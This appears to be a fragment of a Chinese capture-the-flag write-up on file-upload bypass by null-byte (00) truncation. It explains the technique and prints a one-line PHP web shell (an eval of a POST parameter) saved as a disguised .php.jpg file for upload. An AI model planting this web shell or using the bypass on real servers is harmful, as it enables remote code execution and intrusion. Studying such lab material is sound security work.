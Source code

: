 搜一下00截断

> 00截断是操作系统层的漏洞，由于操作系统是C语言或汇编语言编写的，这两种语言在定义字符串时，都是以\0（即0x00）作为字符串的结尾。操作系统在识别字符串时，当读取到\0字符时，就认为读取到了一个字符串的结束符号。因此，我们可以通过修改数据包，插入\0字符的方式，达到字符串截断的目的。00截断通常用来绕过web软waf的白名单限制。

看一下源码

![](images/yunma.png)

创建一个名为ww.php.jpg的文件，写入

```php
<?php @eval($_POST["ctf"]);?>
```

上传

![](images/sc1.png)
